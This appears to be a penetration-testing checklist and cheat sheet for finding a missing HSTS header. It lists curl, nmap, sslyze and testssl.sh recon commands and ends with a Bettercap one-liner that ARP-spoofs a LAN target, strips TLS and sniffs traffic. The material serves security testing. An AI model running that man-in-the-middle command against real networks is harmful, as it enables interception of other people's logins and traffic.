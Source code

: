# HTTP Strict Transport Security

## Check List

* [ ] Review the HSTS header and its validity.

{% stepper %}
{% step %}
### HTTP Strict Transport Security (Missing)
{% endstep %}

{% step %}
Access the Target URL and Inspect the Response Headers Use a tool such as **Burp Suite**, **cURL**, or **browser dev tools** to inspect the HTTP response headers The best way is to use this cheat sheet Example using cURL
{% endstep %}

{% step %}
Check for HSTS Header Confirm the absence of the following header in the server response `Strict-Transport-Security` _The best way to exploit and exploit this vulnerability is to use a cheat sheet_
{% endstep %}
{% endstepper %}

## Cheat Sheet

### Recon Header

#### [cURL](https://curl.se/)

```bash
curl -s -D- $WEBSITE | grep -i strict
```

#### [Nmap](https://nmap.org/)

```bash
nmap -sS -sV --mtu 5000 --script ssl-enum-ciphers $WEBSITE
```

### Scan Vulnerabilities

#### [sslyze](https://github.com/nabla-c0d3/sslyze)

```bash
sslyze $WEBSITE
```

#### [testssl.sh](https://github.com/drwetter/testssl.sh)

```bash
testssl $WEBSITE
```

### MitM

#### [Bettercap](https://www.bettercap.org/)

{% hint style="info" %}
Interface Network
{% endhint %}

```bash
INTERFACE=$(ip -o -4 addr show | awk '{print $2}' | grep -v "lo" | head -n 1)
```

{% hint style="info" %}
MitM on LAN
{% endhint %}

```bash
bettercap -iface $INTERFACE -eval "set arp.spoof.targets $TARGET; arp.spoof on; http.proxy on; http.proxy.sslstrip true; net.sniff on"
```

